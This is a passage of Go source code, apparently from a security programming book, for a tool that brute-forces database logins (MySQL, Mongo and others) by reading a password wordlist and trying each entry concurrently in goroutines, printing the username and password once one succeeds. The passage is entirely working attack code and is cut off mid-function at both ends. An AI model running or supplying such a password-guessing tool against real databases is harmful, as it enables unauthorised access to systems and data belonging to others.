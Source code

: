 ```go
   if err == nil { // No error = success 
      exitWithSuccess(password) 
   } else { 
      log.Println("Error connecting to Mongo. ", err) 
   } 
   doneChannel <- true 
} 

func exitWithSuccess(password string) { 
   log.Println("Success!") 
   log.Printf("\nUser: %s\nPass: %s\n", username, password) 
   os.Exit(0) 
} 

func bruteForce() { 
   // Load password file 
   passwords, err := os.Open(passwordFile) 
   if err != nil { 
      log.Fatal("Error opening password file. ", err) 
   } 

   // Go through each password, line-by-line 
   scanner := bufio.NewScanner(passwords) 
   for scanner.Scan() { 
      password := scanner.Text() 

      // Limit max goroutines 
      if activeThreads >= maxThreads { 
         <-doneChannel // Wait 
         activeThreads -= 1 
      } 

      // Test the login using the specified login function 
      go loginFunc(password) 
      activeThreads++ 
   } 

   // Wait for all threads before returning 
   for activeThreads > 0 { 
      <-doneChannel 
      activeThreads -= 1 
   } 
} 

func checkArgs() (string, string, string, string, string) { 
   // Since the database name is not required for Mongo or Mysql 
   // Just set the dbName arg to anything. 
   if len(os.Args) == 5 && 
      (os.Args[1] == "mysql" || os.Args[1] == "mongo") { 
      return os.Args[1], os.Args[2], os.Args[3], os.Args[4],   
      "IGNORED" 
   } 
   // Otherwise, expect all arguments. 
   if len(os.Args) != 6 { 
      printUsage() 
      os.Exit(1) 
   } 
   return os.Args[1], os.Args[2], os.Args[3], os.Args[4], os.Args[5] 
} 

func printUsage() { 
   fmt.Println(os.Args[0] + ` - Brute force database login  

```